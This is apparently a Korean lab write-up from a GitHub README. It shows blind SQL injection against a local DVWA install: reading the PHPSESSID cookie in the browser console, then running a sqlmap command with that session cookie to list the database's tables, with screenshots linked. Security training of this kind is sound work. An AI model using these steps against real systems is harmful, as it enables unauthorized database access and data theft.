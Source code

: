     console.log(document.cookie);를 이용해 개발자 도구에서 PHPSESSID를 알아낸다

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-3.png?raw=true" width="700" height="300"/>

    PHPSESSID를 이용해 sqlmap에서 다양한 정보(데이터베이스, 아이디 정보 등)을 알아낸다.

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/sI(B)-4.png?raw=true" width="700" height="400"/>

    id가 어떤 것인지 알 수 있다.
    
<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-5.png?raw=true" width="200" height="150"/>

    python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=h9pjp1rqf34n8em188dnuu66ca" -D dvwa -tables
    
    database에 대해 볼 수 있다.

<img src ="https://github.com/adakim3297/GBC-WEB---3/blob/main/SI(B)-6.png?raw=true" width="700" height="400"/>
